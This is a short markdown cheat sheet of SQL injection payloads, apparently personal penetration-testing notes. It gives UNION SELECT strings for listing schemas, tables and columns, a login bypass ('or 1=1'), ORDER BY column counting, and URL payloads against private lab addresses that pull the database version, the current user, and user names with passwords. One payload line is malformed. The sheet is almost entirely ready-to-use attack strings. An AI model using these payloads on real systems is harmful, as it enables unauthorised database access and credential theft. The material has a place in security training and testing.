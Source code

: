 # SQL Injection

## Current Schema

```sql
...union select 1, schema(), 3,4,5,6,7,8,9
```

## Show Tables

```sql
...union select 1, schema_name, 3,4,5,6,7,8,9 from information_schema.schemata

...union select 1, table_name, 3,4,5,6,7,8,9 from INFORMATION_SCHEMA.tables
```

## Column Names

```sql
...union select 1, table_name, column,name 3,4,5,6,7,8,9 from INFORMATION_SCHEMA.columns where table_name = '<TABLE_NAME>'
```

## User defined Tables/Columns

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'

SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'
```

## Bypass Auth

```sql
user' or 1=1 limit 1; #
```

## Enum num of Columns

```sql
10.11.24.85/comment.php?id=774 order by 1
10.11.24.85/comment.php?id=774 order by 2
...
# until hits error

```

## MySQL samples

```sql
# Version
10.11.24.85/comment.php?id=774 union all select 1,2,3,4,(select @@version),6

# current user
10.11.24.85/comment.php?id=774 union all select 1,2,3,4,user(),6

# tables
10.11.24.85/comment.php?id=774%20union%20all%20select%201,2,3,4,table_name from information_schema.tables

# columns
10.11.1.35/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM
information_schema.columns where table_name='users'

# Extract user and password
10.11.24.85/comment.php?id=774%20union%20all%20select%201,2,name,4,password,6%20from%
20users
```



